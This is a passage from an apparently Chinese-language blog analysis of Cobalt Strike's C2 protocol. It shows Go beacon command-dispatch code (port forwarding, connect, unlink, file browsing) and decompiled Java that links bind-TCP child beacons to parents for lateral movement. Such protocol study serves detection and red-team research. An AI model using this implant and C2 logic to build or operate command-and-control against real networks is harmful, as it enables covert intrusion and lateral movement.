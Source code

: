                                     case config.CMD_TYPE_PORTFWD_STOP:                                    finalPacket = packet.MakePacket(13,[]byte("Please use shell rportfwd command"))                                    packet.PushResult(finalPacket)  
                                    case config.CMD_TYPE_CONNECT:                                    go command.Connect(cmdBuf)  
                                    case config.CMD_TYPE_CONNECT_LIVE:                                    go command.BeaconLive(cmdBuf)  
                                    case config.CMD_TYPE_UNLINK:                                    go command.Unlink(cmdBuf)  
                                    case config.CMD_TYPE_FILE_Browser:                                    go command.FileBrowser(cmdBuf)  
                                    default:                                    finalPacket = packet.MakePacket(13, []byte("Command not supported"))                                    packet.PushResult(finalPacket)                                }                            }                        }                    }                }            }        }    }}

  

 **0x03 Bind tcp Beacon通信过程**

  

了解了cs回连的http/https beacon的回连以及控制过程，我们再来看内网横向的Bind tcp beacon。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220218134458.png)

  

 **3.1 解析bindtcp源数据**

  

任务返回类型为10的时候，表示返回的是connect的结果，解析代码在beacon/BeaconC2.java中。

  

这里调用的process_beacon_metadata函数解析源数据，和http/https
beacon解析源数据的过程一样。所以我们可以知道bindtcp beacon 上线包的格式如下：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    if (taskType == 10) { //beacon返回connect结果    childBeaconID = var5.readInt(); //子beacon id    var18 = var5.readInt(); //hint信息    rsaEncryptData = CommonUtils.bString(CommonUtils.readAll(var5)); //子beacon返回的rsa加密的源数据    BeaconEntry var9 = this.getCheckinListener().resolve(var1 + "");    //null    //父beacon的内网ip    //子beacon返回的rsa加密的源数据    //父beaconid    //hint    var10 = this.process_beacon_metadata((ScListener)null, var9.getInternal() + " ⚯⚯", CommonUtils.toBytes(rsaEncryptData), var1, var18);  
        //成功连接到横向bind beacon    if (var10 != null) {        this.pipes.register(var1 + "", childBeaconID + "");        if (var10.getInternal() == null) {            this.getCheckinListener().output(BeaconOutput.Output(var1, "established link to child " + CommonUtils.session(childBeaconID)));            this.getResources().archive(BeaconOutput.Activity(var1, "established link to child " + CommonUtils.session(childBeaconID)));        } else {            this.getCheckinListener().output(BeaconOutput.Output(var1, "established link to child " + CommonUtils.session(childBeaconID) + ": " + var10.getInternal()));            this.getResources().archive(BeaconOutput.Activity(var1, "established link to child " + CommonUtils.session(childBeaconID) + ": " + var10.getComputer()));        }  
            this.getCheckinListener().output(BeaconOutput.Output(var10.getId(), "established link to parent " + CommonUtils.session(var1) + ": " + var9.getInternal()));        this.getResources().archive(BeaconOutput.Activity(var10.getId(), "established link to parent " + CommonUtils.session(var1) + ": " + var9.getComputer()));    }}

  